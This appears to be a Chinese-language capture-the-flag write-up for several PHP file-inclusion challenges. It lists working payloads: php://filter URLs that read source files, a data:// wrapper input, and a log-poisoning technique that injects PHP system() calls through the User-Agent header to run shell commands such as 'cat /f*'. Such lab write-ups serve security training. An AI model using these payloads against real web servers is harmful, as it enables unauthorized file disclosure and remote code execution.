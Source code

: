 ##### [SWPUCTF 2021 新生赛]include

[NSS](https://www.ctfer.vip/problem/427)

- `?file=php://filter/read=convert.base64-encode/resource=flag.php`

##### [HNCTF 2022 Week1]Interesting_include

[NSS](https://www.ctfer.vip/problem/2900)

###### 题解

- `?filter=php://filter/read=convert.base64-encode/resource=flag.php`

###### 分析

源码：

```php
if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

传入后，$file 为一串 base64 码，成功绕过 preg_match 。

##### [SWPUCTF 2021 新生赛]PseudoProtocols

[NSS](https://www.ctfer.vip/problem/441)

- `?wllm=php://filter/read=convert.base64-encode/resource=hint.php`
- `?wllm=php://filter/read=convert.base64-encode/resource=test2222222222222.php` ，得知需访问 test2222222222222.php 。
- `?a=data://text/plain,I want flag`

##### [HNCTF 2022 WEEK2]easy_include

[NSS](https://www.ctfer.vip/problem/2948)

- file 随便传点东西，探查 web 中间件类型，得知为 nginx ：

  ![](picture/1.png)

- UA 头写入 `<?php system('ls /');?>` ，发送包。

- 再次包含日志，即可包含上一次写入的内容：

  ![](picture/2.png)

- 同理再来一次，这次写入 `<?php system('cat /f*');?>` ：

  ![](picture/3.png)